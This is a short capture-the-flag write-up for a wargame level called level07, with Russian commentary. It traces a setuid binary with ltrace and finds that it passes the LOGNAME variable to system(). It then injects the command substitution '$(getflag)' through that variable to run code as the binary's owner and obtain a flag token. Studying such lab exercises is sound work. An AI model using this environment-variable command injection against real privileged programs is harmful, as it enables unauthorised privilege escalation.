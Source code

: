 ```
ls -l
```
> total 12\
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07

```
ltrace ./level07
```
> __libc_start_main(0x8048514, 1, 0xbffff7b4, 0x80485b0, 0x8048620 <unfinished ...>\
getegid()                                                                                                     = 2007\
geteuid()                                                                                                     = 2007\
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                                           = 0\
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                                           = 0\
getenv("LOGNAME")                                                                                             = "level07" <------ `Видно что тут берется переменная из LOGNAME`\
asprintf(0xbffff704, 0x8048688, 0xbfffff33, 0xb7e5ee55, 0xb7fed280)                                           = 18\
system("/bin/echo level07 "level07\
 <unfinished ...>\
--- SIGCHLD (Child exited) ---\
<... system resumed> )                                                                                        = \
+++ exited (status 0) +++

Пробуем ее подменить
```
export LOGNAME=ls;
./level07
```
> ls

Пробуем подменить ее на код, который выполнится

```
export LOGNAME=$(ls -l);
./level07
```
> total 12\
sh: 2: -rwsr-sr-x: not found

Код выполняется, а значит даем ему getflag

```
export LOGNAME=$(getflag)
./level07
```
> Check flag.Here is your token :\
sh: 2: Syntax error: ")" unexpected

```
export LOGNAME='$(getflag)'
./level07
```
> Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
